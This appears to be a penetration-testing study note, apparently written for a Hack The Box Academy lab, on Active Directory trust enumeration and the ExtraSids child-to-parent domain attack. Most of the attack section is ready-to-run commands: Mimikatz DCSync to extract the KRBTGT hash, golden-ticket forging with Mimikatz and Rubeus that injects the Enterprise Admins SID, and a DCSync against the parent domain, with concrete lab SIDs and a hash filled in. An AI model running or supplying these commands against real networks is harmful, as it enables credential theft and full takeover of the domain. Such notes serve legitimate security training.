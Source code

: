 
# Enumerating Trust Relationships


## activedirectory
- ForestTransitive : mean outside the forest        
- IntraForest : mean inside the forest

```powershell
Import-Module activedirectory
Get-ADTrust -Filter *
```

## Powerview
```powershell
Import-Module ./powerview.ps1

Get-DomainTrust
Get-DomainTrustMapping

# Checking Users in the Trusted domains using Get-DomainUser
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName

```

## netdom 
```powershell
# Using netdom to query domain trust
netdom query /domain:inlanefreight.local trust

# Using netdom to query domain controllers
netdom query /domain:inlanefreight.local dc

# Using netdom to query workstations and servers
netdom query /domain:inlanefreight.local workstation


```


## BloodHound
- BloodHound to visualize these trust relationships by using the `Map Domain Trusts` pre-built query

```powershell
.\SharpHound.exe -c All --zipfilename ILFREIGHT

bloodhound 
```
![Screenshot 2024-07-08 at 03-30-53 Hack The Box - Academy](https://github.com/kiro6/penetration-testing-notes/assets/57776872/52df1ad6-e669-47dc-a10a-5ba242815a78)


# From child to parent Trusts Abuse
- The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain.
- The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.
- SID history is intended to work across domains, but can work in the `same domain`.


## ExtraSids Attack
- This attack allows for the compromise of a parent domain once the child domain has been compromised.
- if a user in a child domain that has their sidHistory set to the Enterprise Admins group (which only exists in the parent domain), they are treated as a member of this group
- then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.

### Steps
- comprmised DC in a child domain
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz or any tool.

### Windows

1) **Obtaining the KRBTGT**
```powershell
mimikatz.exe "lsadump::dcsync /user:LOGISTICS\krbtgt"
```
2) **Using Get-DomainSID**
```powershell
Get-DomainSID
```
3) **Obtaining Enterprise Admins Group's SID**
```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
4) **Creating a Golden Ticket**
```powershell

# mimikatz
mimikatz.exe "kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt"

# Rubeus
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
5) **Confirming a Kerberos Ticket is in Memory**
```powershell
klist
```

6) Performing a DCSync Attack against parent domain then we can forge golden ticket
```
.\mimikatz.exe "lsadump::dcsync" "/domain:INLANEFREIGHT.LOCAL" "/user:INLANEFREIGHT\lab_adm"
```
